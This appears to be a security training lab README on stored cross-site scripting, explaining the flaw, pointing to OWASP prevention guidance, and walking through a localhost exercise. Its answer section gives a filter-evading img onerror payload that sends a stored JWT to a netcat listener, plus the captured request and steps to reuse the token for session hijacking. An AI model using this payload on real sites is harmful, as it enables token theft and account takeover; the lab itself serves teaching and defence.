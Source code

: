 # XSS - Cross Site Scripting

XSS or Cross site scripting is one of the most common vulnerabilities and also one that plagues developers of client side applications in JavaScript. With so many frameworks out there, it becomes challenging to determine what is being rendered and how. A stored XSS attack is one in which an attacker is able to inject arbitrary JavaScript onto a page and have that JavaScript be rendered by another user.

This is especially dangerous on pages that have some type of authentication since authentication tokens can easily be sent to another site via JavaScript.

The best ways to prevent XSS are all cataloged here:
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.md

**TL;DR: Sanitize all values just before you render them.**

Example:
You have an HTML template you would like to render with a username value as a `data` attribute such as this:

```
<div data-username="<%= @username %>">
...
</div>
```

If the user is able to update their username value, which is stored on the server, they could adjust the HTML to run their own scripts on others' computers on your site:

```
"><script>alert('pwned!')</script><div class="
```


# Lab

Navigate to http://localhost:1337 and you'll be presented with a login page. Now that we have `rick`'s password, let's use that to log into the site. Let's try adding some comments and see what we can do.

<details>
  <summary>Answer</summary>

  It turns out that the comment field is only minimally sanitized before the page renders. This is extremely common especially when sites want to allow users to insert their own HTML for things like adding photos, customizing rich text documents like blogs or creating branded emails.

  As a test, what we can do is something like this:

  ```
  <script>alert('pwned')</script>
  ```

  We notice that the comment is not even rendered. We can open up the developer panel on the right and inspect the JavaScript for `index.js`. We notice that the developer only "sanitized" by removing the ablity for the script tag, but there are many other ways to execute an XSS attack.

  For a fairly comprehensive listing of how this can be achieved, have a look at: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

  Now let's try something a bit more nasty. An alert is silly and fun but what if you wanted to make a quick and easy credential grab after you execute an XSS vulnerability.

  In a terminal, let's start a `netcat` listener:

  * On Mac: `sudo nc -l 18200`
  * On Linux: `sudo nc -l -p 18200`
  * On Windows (as Administrator): `nc -l -p 18200`

  Now let's try to grab the session token from localStorage (this could just as easily be `document.cookie`)

  ```
  <img src="." onerror=$.get('http://localhost:18200/'+localStorage.jwt)>"
  ```

  Since that HTML doesn't have `<script>` in it, it passes and renders creating an HTTP request to your listener on your localhost that looks something like this:

  ```
  $ sudo nc -l 18200
  OPTIONS /eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJyaWNrIn0.lLdv2SY2TWzzXVKSahFDWPLcUHwpXpjsLnhwo0ioRFM HTTP/1.1
  Host: localhost:18200
  Connection: keep-alive
  Access-Control-Request-Method: GET
  Origin: null
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.109 Safari/537.36
  Access-Control-Request-Headers: x-auth-token
  Accept: */*
  Accept-Encoding: gzip, deflate, br
  Accept-Language: en-US,en;q=0.9
  ```

  That bit after options is the valid [jwt](https://jwt.io) token sent via the URL path which will allow access to the site. As an attacker, all you have to do is set your own `localStorage.jwt` value to that string in your browser and you're in without even needing to knowing the password. That being said, for most sessions, you'll only have access until the session has timed out, but for many sites, this is  plenty of time to do significant damage.

  **Followup Question** What are some ways you can think of to add security controls to prevent damage even if a session token is compromised?
</details>
